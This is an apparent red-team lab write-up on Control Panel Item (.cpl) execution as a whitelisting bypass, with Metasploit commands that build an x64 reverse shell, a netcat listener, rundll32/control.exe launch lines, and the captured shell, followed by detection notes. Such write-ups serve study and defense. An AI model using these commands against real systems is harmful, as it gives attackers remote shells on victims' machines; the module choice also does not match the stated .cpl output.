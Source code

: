 ```yaml
---
layout: post
title: "2024-06-18-t1196 control panel item code execution"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1196-control-panel-item-code-execution/
---
```


---
description: Control Panel Item code execution - bypass application whitelisting.
---

# Control Panel Item

## Execution

Generating a simple x64 reverse shell in a .cpl format:

{% code title="attacker@local" %}
```csharp
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endcode %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](<../../.gitbook/assets/lnk-dllmain (1).png>)

A quick look at the dissasembly of the dll suggests that rundll32.exe will be spawned, a new thread will be created in suspended mode, which most likely will get injected with our shellcode and eventually resumed to execute that shellcode:

![](../../.gitbook/assets/lnk-dissasm.png)

Invoking the shellcode via control.exe:

{% code title="attacker@victim" %}
```csharp
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endcode %}

Attacking machine receiving the reverse shell:

{% code title="attacker@local" %}
```csharp
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endcode %}

## Observations

Note how rundll32 spawns cmd.exe and establishes a connection back to the attacker - these are signs that should raise your suspicion when investingating a host for a compromise:

![](../../.gitbook/assets/lnk-connection.png)

As always, sysmon logging can help in finding suspicious commandlines being executed in your environment:

![](<../../.gitbook/assets/lnk-sysmon (2).png>)

## Bonus - Create Shortcut With PowerShell

```bash
$TargetFile = "$env:SystemRoot\System32\calc.exe"
$ShortcutFile = "C:\experiments\cpl\calc.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1196" %}

{% embed url="https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1060/T1060.md" %}
@spotheplanet
